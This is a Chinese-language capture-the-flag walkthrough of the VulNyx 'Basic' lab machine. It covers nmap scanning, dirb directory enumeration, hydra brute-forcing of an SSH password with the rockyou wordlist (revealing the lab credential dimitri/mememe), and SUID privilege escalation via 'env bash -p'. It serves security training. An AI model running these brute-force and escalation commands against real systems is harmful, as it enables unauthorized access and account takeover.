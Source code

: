 # 环境

来自[vulnyx_Basic](https://vulnyx.com/#Basic)，利用已知cups存在的账户，进行密码爆破

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```

![image-20240726170040105](image/image-20240726170040105.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.38
```

![image-20240726170111727](image/image-20240726170111727.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,631 192.168.88.38
```

![image-20240726170309509](image/image-20240726170309509.png)

两个http服务

## 目录扫描

```bash
dirb http://192.168.88.38
dirb http://192.168.88.38:631
```

# web渗透

访问80，只有测试页面，631是打印网站cups2.3.3，查找历史漏洞无果，找到一个账号，尝试爆破密码

![image-20240726173545037](image/image-20240726173545037.png)

## hydra破解ssh拿shell

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt 192.168.88.38 ssh -t 60 -f
```

![image-20240726172606769](image/image-20240726172606769.png)

账号`dimitri`密码`mememe`

```bash
ssh dimitri@192.168.88.38
```

![image-20240726173652015](image/image-20240726173652015.png)

## 提权

```bash
sudo -l  #没有信息
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```

![image-20240726173738047](image/image-20240726173738047.png)

只能通过SUID提权，权限不是特别高

```bash
env bash -p
```

![image-20240726174219816](image/image-20240726174219816.png)
